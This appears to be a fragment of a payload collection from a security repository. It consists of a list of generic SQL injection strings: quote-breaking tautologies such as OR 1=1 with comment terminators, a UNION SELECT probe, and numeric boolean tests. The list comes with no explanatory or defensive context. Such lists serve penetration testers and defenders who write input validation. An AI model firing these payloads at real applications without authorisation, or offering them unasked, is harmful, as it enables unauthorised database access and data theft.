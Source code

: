 #### Generic SQL Injection Payloads

```cadence
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
 OR 1=1
 ' OR 'x'='x
 ' AND id IS NULL; --
 '''''''''''''UNION SELECT '2

\# Numeric

AND 1
AND 0
AND true
AND false
```
